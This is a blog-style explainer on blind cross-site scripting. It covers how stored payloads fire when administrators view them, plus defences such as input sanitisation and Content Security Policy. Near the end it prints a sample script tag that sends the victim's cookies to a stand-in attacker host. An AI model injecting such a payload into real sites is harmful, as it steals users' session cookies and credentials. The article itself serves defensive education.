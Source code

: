 ```yaml
---
title: Everything you need to know about blind XSS
date: 21 September 2022
description: xss allows an attacker to inject malicious code into a website...
keywords: xss, blind xss, isaac, cross-site scripting, hacking, security
draft: false
---
```



Typically, Cross-Site Scripting (XSS) is a type of security vulnerability that allows an attacker to inject malicious code into a website. This can be used to steal sensitive information, such as login credentials or personal data, from users visiting the affected website. One variation of XSS is Blind Cross-Site Scripting (XSS), which is a type of XSS attack where the attacker injects malicious code into a website, but the code does not execute until it is viewed by an administrator or other privileged user. This can make it difficult to detect and prevent.

Blind XSS attacks are particularly dangerous because they can be used to steal sensitive information from an organization’s internal systems, such as administrator dashboards or intranet portals. In this article, we will discuss the basics of Blind XSS, how it works, and how to protect against it.


## How Blind XSS Works

Blind XSS attacks take advantage of user input that is not properly sanitized or validated before being used in a website. For example, an attacker might inject a malicious script into a website’s search bar, which is then stored in a database and displayed to an administrator when they view the search results. The script is executed when the administrator views the search results, allowing the attacker to steal sensitive information, such as login credentials or personal data.

Another example of Blind XSS is when an attacker injects malicious code into a website’s contact form, which is then sent to an administrator via email. The script is executed when the administrator views the email, allowing the attacker to steal sensitive information.

One of the key characteristics of Blind XSS is that the attacker does not have direct access to the victim’s browser, meaning that the victim does not see any indication that an attack is taking place. This makes it very difficult for victims to detect and prevent these attacks.


**Preventing Blind XSS**

Preventing Blind XSS requires a multi-layered approach that includes input validation and sanitization, as well as monitoring for suspicious activity.

## 1. Input validation and sanitization

One of the most important steps in preventing Blind XSS is to ensure that user input is properly validated and sanitized before it is used in a website. This can be done by using a whitelist of allowed characters and ensuring that any input that does not match the whitelist is rejected. Additionally, it is important to sanitize any user input that is displayed on a website, so that any malicious code is removed before it can be executed.

## 2. Use of Content Security Policy

Content Security Policy (CSP) is an added layer of security that helps to detect and prevent XSS attacks. It allows web developers to specify the sources of content that are allowed to be loaded on a webpage, including scripts, images, and stylesheets. By setting a strict CSP, web developers can ensure that only trusted sources are allowed to load content on their website, which can help to prevent Blind XSS attacks.

## 3. Monitoring for suspicious activity

Another important step in preventing Blind XSS is to monitor for suspicious activity on your website. This can include monitoring for unusual patterns of traffic, such as a high number of requests from a single IP address, or for attempts to access restricted areas of your website. By monitoring for these types of activity, you can detect and prevent Blind XSS attacks before they can cause harm.

## 4. Regular security testing

Regularly testing your website for vulnerabilities, including Blind XSS, is a critical step in preventing these types of attacks. This can be done by using automated tools, such as vulnerability scanners, or by hiring a professional penetration tester. Regular testing can help to identify and fix vulnerabilities before they can be exploited by an attacker.

## 5. Educating your team

It’s also important to educate your team about the dangers of Blind XSS and other types of security vulnerabilities. This can include providing regular training on best practices for web development and security, as well as encouraging team members to report any suspicious activity or potential vulnerabilities that they come across.

**An example of Blind XSS attack:**

Let’s consider an example of a Blind XSS attack on a website’s search bar. An attacker injects a malicious script into the search bar, which is then stored in a database and displayed to an administrator when they view the search results. The script is executed when the administrator views the search results, allowing the attacker to steal sensitive information, such as login credentials or personal data.

<script>
    new Image().src = "http://hacker.com?cookie=" + document.cookie;
</script>

This payload creates an image element that sends the user’s cookie to the attacker’s website.

It’s important to note that using such payloads without permission is illegal and unethical, and could result in severe consequences. It’s important to report found vulnerabilities instead of exploiting them.

Blind XSS is a serious security vulnerability that can be used to steal sensitive information from an organization’s internal systems. It is important to take a multi-layered approach to protecting against Blind XSS, including input validation and sanitization, using Content Security Policy, monitoring for suspicious activity, and regular security testing. By following these best practices, you can help to ensure that your website is protected against Blind XSS and other types of security vulnerabilities.